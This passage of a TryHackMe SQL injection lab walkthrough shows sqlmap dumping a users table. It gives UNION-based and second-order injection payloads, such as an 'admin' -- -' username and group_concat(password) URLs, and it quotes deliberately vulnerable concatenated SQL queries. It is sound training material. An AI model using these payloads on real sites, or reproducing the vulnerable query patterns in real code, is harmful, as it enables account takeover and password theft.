| 46 | cajac                                 | admin' union all select null,char(113,107,113,122,113)||json_group_array(coalesce(id,char(32))||char(104,109,99,106,99,118)||coalesce(password,char(32))||char(104,109,99,106,99,118)||coalesce(username,char(32)))||char(113,98,113,98,113) from users-- anqf                                                                                                                                                                                                                                       |
+----+---------------------------------------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+

[09:42:44] [INFO] table 'SQLite_masterdb.users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/10.64.183.154/dump/SQLite_masterdb/users.csv'
[09:42:44] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.64.183.154'

[*] ending @ 09:42:44 /2025-12-26/
```

Finally, we get the flag from the output file

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Easy/SQL_Injection_Lab]
└─$ grep THM /home/kali/.local/share/sqlmap/output/10.64.183.154/log
| 1  | THM{<REDACTED>} | admin    |
| 5  | THM{<REDACTED>} | xxxFLAGxxx  
```

Alternatively, we can register an account with the following data:

- **Username**: `' union select 1,group_concat(password) from users'`
- **Password**: `cajac`

Then login with this account, and go to the `Notes` page and find the flag among the notes.

Answer: `THM{<REDACTED>}`

### Task 8: Vulnerable Startup: Change Password

#### Goal

For this challenge, the vulnerability on the note page has been fixed. A new change password function has been added to the application, so the users can now change their password by navigating to the Profile page. The new function is vulnerable to SQL injection because the UPDATE statement concatenates the username directly into the SQL query, as can be seen below. The goal here is to exploit the vulnerable function to gain access to the admin's account.

#### Description

The developer has used a placeholder for the password parameter because this input comes directly from the user. The username does not come directly from the user but is rather fetched from the database based on the user id stored in the session object. Therefore, the developer has thought that the username was safe to use and concatenated it directly into the query instead of using a placeholder:

```sql
UPDATE users SET password = ? WHERE username = '" + username + "'
```

To exploit this vulnerability and gain access to the admin's user account, we can create a user with the name `admin'-- -`.

After having registered the malicious user, we can update the password for our new user to trigger the vulnerability. When changing the password, the application executes two queries. First, it asks the database for the username and password for our current user:

```sql
SELECT username, password FROM users WHERE id = ?
```

If all checks are fine, it will try to update the password for our user. Since the username gets concatenated directly into the SQL query, the executed query will look as follows:

```sql
UPDATE users SET password = ? WHERE username = 'admin' -- -'
```

This means that instead of updating the password for `admin' -- -`, the application updated the password for the *admin* user. After having updated the password, it is possible to log in as admin with the new password and view the flag.

#### Task

Create a new user and exploit the vulnerability in the update password function to access the admin account to get the flag.

---------------------------------------------------------------------------------------

#### What is the flag for this challenge?

Create a user with the following data:

**Usermname**: `admin' -- -`
**Password**: `cajac`

and then login with the new user.

Click on the `Profile` link in the upper left corner and change the password to `cajac2`.

Finally, logout and login with `admin:cajac2` to get the flag.

Answer: `THM{<REDACTED>}`

### Task 9: Vulnerable Startup: Book Title

#### Goal

A new function has been added to the page, and it is now possible to search books in the database. The new search function is vulnerable to SQL injection because it concatenates the user input directly into the SQL statement. The goal of the task is to abuse this vulnerability to find the hidden flag.

#### Description

When the user first logs into the challenge, they are presented with a message saying:

```text
Testing a new function to search for books, check it out here
```

The 'here' text is a link taking the user to `http://10.64.183.154:5000/challenge6/book?title=test`, which is the page containing the vulnerable search function and can be seen here:



The web page performs a GET request with the parameter `title` when searching for a book. The query it performs can be seen here:

```sql
SELECT * from books WHERE id = (SELECT id FROM books WHERE title like '" + title + "%')
```

All we need to do to abuse this is closing the LIKE operand to the right of the LIKE operator. For example, we can dump all the books in the database by injecting the following command:

```text
') or 1=1-- -
```

#### Task

Use what you learned about UNION-based SQL injection and exploit the vulnerable book search function to retrieve the flag.

---------------------------------------------------------------------------------------

#### What is the flag for this challenge?

Create a user with the following data:

**Usermname**: `cajac`
**Password**: `cajac`

and then login with the new user.

Try out the new search bokks feature by clicking the `here` link.

Note the `title`-parameter in the URL:  
`http://10.64.183.154:5000/challenge6/book?title=test`

Finally, change the URL to `http://10.64.183.154:5000/challenge6/book?title=') union select 1,2,3,group_concat(password) from users-- -` to get the flag.

Answer: `THM{<REDACTED>}`

### Task 10: Vulnerable Startup: Book Title 2

#### Goal

In this challenge, the application performs a query early in the process. It then uses the result from the first query in the second query later without sanitization. Both queries are vulnerable, and the first query can be exploited through blind SQL injection. However, since the second query is also vulnerable, it is possible to simplify the exploitation and use UNION based injection instead of Boolean-based blind injection; making the exploitation easier and less noisy. The goal of the task is to abuse this vulnerability without using blind SQL injection and retrieve the flag.

#### Description

When the user first logs into the challenge, they are presented with a message saying:

```text
Testing a new function to search for books, check it out here
```

The 'here' text is a link taking the user to `http://10.64.183.154:5000/challenge7/book?title=test`, which is the page containing the vulnerable search function and can be seen here:



When searching for a book title, the web page performs a GET request. The application then performs two queries where the first query gets the book's ID, then later on in the process, a new SQL query is performed to get all information about the book. The two queries can be seen here:

```python
bid = db.sql_query(f"SELECT id FROM books WHERE title like '{title}%'", one=True)
if bid:
    query = f"SELECT * FROM books WHERE id = '{bid['id']}'"
```

First, we will limit the result to zero rows, which can be done by not giving it any input or input we know does not exist. Then we can use the UNION clause to control what the first query returns, which is the data that will be used in the second query. Meaning that we can inject the following value into the search field:

```text
' union select 'STRING
```

After injecting the code above, the application will perform the following SQL queries:



From queries, we can see that the result from query one is STRING%, which is used in the WHERE clause of the second query.

If we replace 'STRING with a number that exists in the database, the application should return a valid object. However, the application adds a wildcard (%) to the string, meaning that we must comment out the wildcard first. The wildcard can be commented out by appending '-- - to the end of the string we are injecting. For example, if we inject the following line:

```text
' union select '1'-- -
```

The application should display the book with ID 1 back to the user, as seen here:



If we did not limit the result to zero rows first, we would not have gotten the output of the UNION statement but rather the content from the LIKE clause. For example, by injecting the following string:

```text
test' union select '1'-- -
```

The application would have executed the following queries:



Now that we have full control of the second query, we can use UNION-based SQL injection to extract data from the database. The goal is to make the second query look something similar to the following query:

```text
SELECT * FROM books WHERE id = '' union select 1,2,3,4-- -
```

Making the application execute the query above should be as easy as injecting the following query:

```text
' union select '1' union select 1,2,3,4-- -
```

However, we are closing the string that is supposed to be returned by appending the single quote (') before the second UNION clause. To make the query work and return our second UNION clause, we will have to escape the single quote. Escaping the single quote can be done by doubling up the quote (''). After having doubled the quotes, we have the following string:

```text
' union select '-1''union select 1,2,3,4-- -
```

Injecting the string above will return the page seen here:



#### Task

Use what you learned about UNION-based SQL injection and exploit the vulnerable book search function to retrieve the flag.

---------------------------------------------------------------------------------------

#### What is the flag for this challenge?

Create a user with the following data:

**Usermname**: `cajac`
**Password**: `cajac`

and then login with the new user.

Try out the new search bokks feature by clicking the `here` link.

Note the `title`-parameter in the URL:  
`http://10.64.183.154:5000/challenge7/book?title=test`

Finally, change the URL to `http://10.64.183.154:5000/challenge7/book?title=' union select '-1''union select 1,2,3,group_concat(password) from users-- -` to get the flag.

Answer: `THM{<REDACTED>}`

For additional information, please see the references below.

## References

- [Flask (web framework) - Wikipedia](https://en.wikipedia.org/wiki/Flask_(web_framework))
- [Flask Session Cookie Decoder](https://www.kirsle.net/wizards/flask-session.cgi)
- [SQL - Wikipedia](https://en.wikipedia.org/wiki/SQL)
- [SQL Injection - OWASP](https://owasp.org/www-community/attacks/SQL_Injection)
- [SQL Injection - PortSwigger](https://portswigger.net/web-security/sql-injection)
- [SQL injection - Wikipedia](https://en.wikipedia.org/wiki/SQL_injection)
- [SQL injection cheat sheet - PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)
- [Smbmap - GitHub](https://github.com/ShawnDEvans/smbmap)
- [Smbmap - Kali Tools](https://www.kali.org/tools/smbmap/)
- [Testing for SQL Injection - WSTG - OWASP](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection)
